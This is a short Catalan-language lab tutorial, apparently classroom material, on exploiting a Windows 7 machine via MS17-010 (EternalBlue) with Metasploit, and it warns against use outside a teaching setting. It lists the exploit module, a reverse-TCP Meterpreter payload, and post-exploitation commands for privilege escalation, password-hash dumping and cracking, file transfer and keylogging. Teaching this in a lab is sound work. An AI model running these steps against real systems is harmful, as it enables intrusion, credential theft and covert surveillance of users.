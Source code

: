## En aesta pràctica prepararem la màquina `Windows 7 ` per a poder realitzar algunes activitats amb Metasploit.

!!!danger "Perill!!"
    No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...

### Explotar vulnerabilitat `CVE-2017-010` amb Eternalblue i Doublepulsar des de Metasploit

* Simplement utilitzem el següent exploit:

`use exploit/windows/smb/ms17_010_eternalblue`...i ens torna el control mitjançant un **shell o un Meterpreter** (Metainterprete:payload que permet carregar i injectar en un programa del sistema atacat les extensions que em desenvolupat en format .dll). 

* i payload `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

Ja estem dins...

* Comandaments 
    * sysinfo
    * pwd
    * getuid
    * migrate pid 
    * getsystem
    * hashdump -> crackstation(desxifra el md5)
    * screenshot
    * upload de kali a win7
    * download de W7 a Kali
    * keyscan_start keyscan_dump